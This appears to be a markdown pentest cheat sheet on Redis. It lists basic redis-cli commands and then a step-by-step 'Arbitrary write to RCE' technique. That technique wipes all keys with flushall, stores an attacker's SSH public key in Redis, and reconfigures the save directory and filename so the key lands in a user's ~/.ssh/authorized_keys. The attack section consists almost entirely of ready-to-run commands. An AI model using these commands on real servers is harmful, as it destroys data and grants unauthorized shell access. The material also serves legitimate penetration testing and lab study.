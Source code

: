 ```yaml
---
title: "Redis"
date: 2024-7-6
tags: ["redis", "redis-cli", "privesc"]
---
```


---
### Basic

<div>

```bash
# Connect
redis-cli -h 127.0.0.1
```

```bash
# Provide password
auth <PASSWORD>
```

```bash
# List current keys
keys *
```

```bash
# Add key
incr key
```

```bash
# Get key value
get key
```

<div>

<br>

---

### Abuse #1: Arbitrary write to RCE

<div>

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

```bash
# Deletes all keys from all databases on current host
redis-cli -h 127.0.0.1 flushall
```

```bash
cat foo.txt | redis-cli -h 127.0.0.1 -x set crackit
```

```bash
redis-cli -h 127.0.0.1 config set dir /home/<USER>/.ssh/
```

```bash
redis-cli -h 127.0.0.1 config set dbfilename "authorized_keys"
```

```bash
redis-cli -h 127.0.0.1 save
```

</div>

<br>
